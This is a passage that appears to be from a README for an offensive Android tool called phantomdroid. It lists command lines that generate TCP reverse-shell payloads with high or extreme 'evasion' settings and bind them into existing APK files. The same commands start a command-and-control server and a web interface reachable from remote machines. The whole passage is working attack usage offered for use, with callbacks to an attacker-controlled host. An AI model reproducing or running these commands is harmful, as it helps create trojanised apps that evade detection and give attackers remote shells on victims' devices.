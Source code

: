 ### Method 2: Command Line Mode

```bash
# Generate TCP reverse shell
./phantomdroid.sh --payload tcp --lhost 192.168.1.100 --lport 4444 --evasion high

# Bind payload to existing APK
./phantomdroid.sh --target /path/to/original.apk --lhost 192.168.1.100 --lport 4444

# Enable debug mode
./phantomdroid.sh --debug --verbose
```

### Method 3: Direct Python Execution

```bash
# Generate standalone payload
python3 core/payload_generator.py \
    --type tcp_reverse \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --evasion extreme \
    --output /tmp/phantom_payloads

# Bind to existing APK
python3 core/apk_binder.py \
    --apk /path/to/original.apk \
    --lhost 192.168.1.100 \
    --lport 4444 \
    --method 1 \
    --evasion high

# Start C2 server
python3 core/c2_server.py \
    --port 8080 \
    --protocol 1 \
    --log-dir /var/log/phantom

# Launch web interface
python3 core/web_interface.py
```

### Method 4: Web Interface

```bash
# Start web interface
python3 core/web_interface.py

# Access from browser
firefox http://localhost:8080 &

# Or from remote machine
python3 core/web_interface.py --host 0.0.0.0 --port 8080
# Access: http://KALI_IP:8080
```
